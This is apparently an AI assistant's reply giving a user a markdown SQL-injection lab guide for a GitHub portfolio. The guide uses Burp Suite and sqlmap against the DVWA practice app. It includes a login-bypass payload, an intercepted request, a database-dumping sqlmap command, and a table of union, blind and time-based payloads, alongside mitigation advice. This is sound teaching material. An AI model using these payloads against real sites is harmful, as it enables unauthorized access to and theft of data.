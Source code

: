 I’ve created the full SQL Injection markdown content as a ready-to-use `.md` file for you.

I’ll save it as **`SQL_Injection.md`** so you can download and directly upload it to your GitHub repo.

Here’s the file content:

````markdown
# 💉 SQL Injection (SQLi) — Full Practical Guide

Welcome! This document covers the essentials of **SQL Injection (SQLi)** with practical steps using **Burp Suite**, **SQLmap**, and **DVWA**.

---

## 🔍 What is SQL Injection?

SQL Injection allows attackers to manipulate backend database queries by injecting malicious input.

- ⚠️ Caused by unsanitized user input
- 🎯 Targets login forms, URL parameters, search fields
- 🚨 Risks include data theft, unauthorized access, and system compromise

---

## 🛠️ Tools & Environment

| Tool       | Purpose                   |
|------------|---------------------------|
| DVWA       | Vulnerable web app for labs |
| Burp Suite | Manual request interception |
| SQLmap     | Automated SQLi exploitation |
| Kali Linux | Penetration testing OS      |

---

## 🔑 Manual SQL Injection with Burp Suite

1. Open DVWA, set security to **Low**.
2. Intercept the login request with Burp Suite.
3. Use this payload in username field to bypass login:

```sql
admin' OR '1'='1 --
````

4. Burp will show the intercepted request like:

```
POST /dvwa/login.php HTTP/1.1
Host: localhost
...
username=admin%27+OR+%271%27%3D%271+--+&password=anything&Login=Login
```

🖼️ ![Login Bypass using Burp Suite](images/login_bypass.png)

---

## 🤖 Automated SQL Injection using SQLmap

Run this command to find and dump databases:

```bash
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=123456" \
--dbs --batch
```

🖼️ ![SQLmap dump results](images/sqlmap_results.png)

---

## 🔬 Types of SQL Injection

| Type             | Description                         | Example Payload                     |
| ---------------- | ----------------------------------- | ----------------------------------- |
| Error-based      | Leverages DB error messages         | `' OR 1=1 --`                       |
| Union-based      | Combines results from another query | `' UNION SELECT null, version() --` |
| Blind (Boolean)  | Infers data via true/false logic    | `' AND 1=1 --` vs `' AND 1=2 --`    |
| Time-based Blind | Uses time delays to infer data      | `' OR SLEEP(5) --`                  |

---

## 🧠 Key Learnings

* Manual and automated testing approaches
* Payload crafting for different SQLi types
* Importance of input validation and prepared statements

---

## 🛡️ Mitigation Recommendations

* Use parameterized queries / prepared statements
* Sanitize and validate all inputs
* Employ Web Application Firewalls (WAFs)
* Restrict DB user privileges

---

## 📚 Further Resources

* [PortSwigger SQL Injection Academy](https://portswigger.net/web-security/sql-injection)
* [TryHackMe SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)
* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## 🧰 Tools I Used

![Burp Suite](https://img.shields.io/badge/Burp_Suite-orange)
![SQLmap](https://img.shields.io/badge/SQLmap-grey)
![DVWA](https://img.shields.io/badge/DVWA-green)
![Kali Linux](https://img.shields.io/badge/Kali_Linux-blue)

---

## 🔗 Connect with Me

* GitHub: [github.com/YOUR\_USERNAME](https://github.com/YOUR_USERNAME)
* LinkedIn: [linkedin.com/in/YOUR\_USERNAME](https://linkedin.com/in/YOUR_USERNAME)

```

---

I saved it as a file here — you can download it:  

[SQL_Injection.md](sandbox:/mnt/data/SQL_Injection.md)

---

**How to use:**  
1. Download and upload this file into your repo inside a folder like `/SQLi/`  
2. Add your screenshots in `/SQLi/images/` folder with the names `login_bypass.png` and `sqlmap_results.png`  
3. Replace `YOUR_USERNAME` in GitHub and LinkedIn URLs with your actual usernames  

---

If you want me to create that folder + image placeholders as well, just ask!
```
